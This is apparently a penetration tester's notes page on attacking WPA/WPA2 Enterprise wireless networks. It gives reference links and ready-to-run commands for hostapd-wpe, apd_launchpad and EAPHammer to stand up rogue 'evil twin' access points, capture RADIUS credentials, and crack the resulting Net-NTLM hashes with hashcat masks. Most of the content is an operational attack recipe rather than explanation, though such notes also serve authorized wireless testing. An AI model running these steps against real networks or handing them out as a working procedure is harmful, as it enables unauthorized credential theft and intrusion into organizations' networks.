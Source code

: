 ```yaml
---
description: Wi-Fi Protected Access Enterprise
---
```


# WPA/WPA2 Enterprise

* [https://medium.com/@adam.toscher/top-5-ways-i-gained-access-to-your-corporate-wireless-network-lo0tbo0ty-karma-edition-f72e7995aef2](https://medium.com/@adam.toscher/top-5-ways-i-gained-access-to-your-corporate-wireless-network-lo0tbo0ty-karma-edition-f72e7995aef2)
* [https://solstice.sh/iii-eap-downgrade-attacks/](https://solstice.sh/iii-eap-downgrade-attacks/)




## hostapd-wpe

* [https://pentest.blog/attacking-wpa-enterprise-wireless-network/](https://pentest.blog/attacking-wpa-enterprise-wireless-network/)
* [https://teckk2.github.io/wifi%20pentesting/2018/08/09/Cracking-WPA-WPA2-Enterprise.html](https://teckk2.github.io/wifi%20pentesting/2018/08/09/Cracking-WPA-WPA2-Enterprise.html)
* [https://codeby.net/threads/vzlom-wpa-2-enterprise-s-pomoschju-ataki-evil-twin.59920/](https://codeby.net/threads/vzlom-wpa-2-enterprise-s-pomoschju-ataki-evil-twin.59920/)

1\. Install dependencies:

```
$ sudo apt install libnl-3-dev libssl-dev
$ sudo apt install hostapd-wpe
```

2\. Install and configure hostapd-wpe:

```
$ sudo vi /etc/hostapd-wpe/hostapd-wpe.conf
...
interface=wlan1
eap_user_file=/etc/hostapd-wpe/hostapd-wpe.eap_user
ssid=NotEvilTwinAP
channel=1
hw_mode=b
auth_server_addr=127.0.0.1
auth_server_port=18120
auth_server_shared_secret=S3cr3t!
wpa_pairwise=TKIP CCMP
```

3\. Run fake AP with RADIUS server:

```
$ sudo airmon-ng check kill
$ sudo /usr/sbin/hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
```

4\. Crack Net-NTLM hashes (mask example):

```
$ hashcat -m 5500 -a 3 net-ntlmv1.txt -1 ?d?l ?1?1?1?1?1?1?1?1
$ hashcat -m 5500 -a 3 net-ntlmv1.txt -1 ?d?l?u ?1?1?1?1?1?1?1?1
$ hashcat -m 5500 -a 3 net-ntlmv1.txt -1 ?d?l?u?s ?1?1?1?1?1?1?1?1
```




## apd_launchpad

* [https://github.com/WJDigby/apd_launchpad](https://github.com/WJDigby/apd_launchpad)
* [https://www.c0d3xpl0it.com/2017/03/enterprise-wifi-hacking-with-hostapd-wpe.html](https://www.c0d3xpl0it.com/2017/03/enterprise-wifi-hacking-with-hostapd-wpe.html)

```
$ python ~/tools/apd_launchpad/apd_launchpad.py -t radius -s MegaCorp -i wlan1 -ch 1 -cn '*.megacorp.local' -o MegaCorp
$ vi radius/radius.conf
...
eap_user_file=/etc/hostapd-wpe/hostapd-wpe.eap_user
```




## EAPHammer

* [https://github.com/s0lst1c3/eaphammer](https://github.com/s0lst1c3/eaphammer)

Setup:

```
$ git clone https://github.com/s0lst1c3/eaphammer.git ~/tools/eaphammer && cd ~/tools/eaphammer
$ sudo ./kali-setup
$ sudo python3 -m pip install flask-cors flask-socketio --upgrade
```

Create a certificate:

```
$ sudo ./eaphammer --cert-wizard
```

Steal RADIUS creds:

```
$ sudo ./eaphammer --bssid 1C:7E:E5:97:79:B1 --essid Example --channel 1 --interface wlan1 --auth wpa-eap --creds
```
